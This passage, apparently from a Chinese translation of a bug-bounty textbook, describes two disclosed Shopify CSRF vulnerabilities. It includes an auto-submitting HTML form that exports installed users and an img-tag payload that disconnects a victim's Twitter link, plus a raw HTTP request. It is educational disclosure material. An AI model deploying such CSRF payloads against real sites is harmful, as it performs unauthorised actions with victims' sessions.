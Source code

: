 Shopify 的 API 提供了一个终端，用于导出已安装用户的列表，通过上面给出的 URL。在站点能够调用该终端，并且读取信息的地方存在漏洞，因为 Shopify 在该调用中并没有包含任何 CSRF Token 验证。所以，下面的 HTML 代码可以用于代表任何未知受害者提交表单。

```html
<html>
    <head><title>csrf</title></head>
    <body onLoad="document.forms[0].submit()">
        <form action="https://app.shopify.com/services/partners/api_clients/1105664/\ export_installed_users" method="GET">
        </form>
    </body>
</html>
```

这里，通过仅仅浏览站点，JavaScript 就会提交表单，它实际上包含 Shopify API 的 GET 请求，使用受害者的浏览器，并提供 Shopify 的 Cookie。

> 重要结论

> 扩展你的攻击领域，并从站点转向它的 API 终端。API 提供了极大的漏洞可能性，所以最好牢记他，尤其是当你知道 API 可能开发完毕，或者在站点实际开发之后可用的时候。

### 2\. Shopify Twitter 断开连接

难度：低

URL：`https://twitter-commerce.shopifyapps.com/auth/twitter/disconnect`

报告链接：`https://hackerone.com/reports/111216`

报告日期：2016.1.17

奖金：$500

描述：

Shopify 提供了 Twitter 的继承，来允许店主转推它们的商品。与之相似，也提供了功能来断开推特账户和被连接商店的链接。

断开 Twitter 账户的 URL 写在了上面。当进行调用时，Shopify 不验证 CSRf Token，这可能会允许恶意人员代表受害者进行 GET 调用，因此断开受害者的商店与 Twitter 的连接。

在提供这份报告的时候，WeSecureApp 提供了下面的漏洞请求示例 - 要注意下面的`img`标签的使用，它对漏洞 URL 进行调用：


```
GET /auth/twitter/disconnect HTTP/1.1
Host: twitter-commerce.shopifyapps.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:43.0) Gecko/2010010\ 1 Firefox/43.0
Accept: text/html, application/xhtml+xml, application/xml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://twitter-commerce.shopifyapps.com/account
Cookie: _twitter-commerce_session=REDACTED
Connection: keep-alive
```

由于浏览器进行 GET 请求来获取给定 URL 处的图片，并且不验证任何 CSRF Token ，用户的商店现在已断开连接：

```html
<html>
    <body>
        <img src="https://twitter-commerce.shopifyapps.com/auth/twitter/disconnect">
    </body>
</html>
```
